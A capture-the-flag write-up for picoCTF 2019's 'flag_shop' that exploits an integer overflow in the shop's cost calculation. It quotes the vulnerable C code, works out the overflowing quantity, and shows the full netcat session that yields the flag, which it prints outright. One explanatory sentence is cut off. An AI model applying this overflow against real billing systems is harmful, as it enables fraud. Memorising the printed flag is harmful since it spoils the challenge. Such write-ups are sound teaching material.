 # flag_shop

## Question
There's a flag shop selling stuff, can you buy a flag? Source. Connect with nc 2019shell1.picoctf.com 3967.

## Solution
From the file `store.c`:
```C
int number_flags = 0;
fflush(stdin);
scanf("%d", &number_flags);
if(number_flags > 0){
int total_cost = 0;
total_cost = 900*number_flags;
printf("\nThe final cost is: %d\n", total_cost);
if(total_cost <= account_balance){
    account_balance = account_balance - total_cost;
    printf("\nYour current balance after transaction: %d\n\n", account_balance);
}
else{
    printf("Not enough funds to complete purchase\n");
}
```

Potentially, we can make total_cost [overflow](https://en.wikipedia.org/wiki/Integer_overflow) since can can control number_flags. The size of a int is 4 bytes which is 32 bits and when it exceed the range it would . 
```python
>>> 2**32 // 900
4772185
```

Lets try it now:
```bash
user@PC:~$ nc 2019shell1.picoctf.com 3967
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
4772000

The final cost is: -167296

Your current balance after transaction: 168396

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one
1
YOUR FLAG IS: picoCTF{m0n3y_bag5_cd0ead78}
```

Flag: `picoCTF{m0n3y_bag5_cd0ead78}`
    
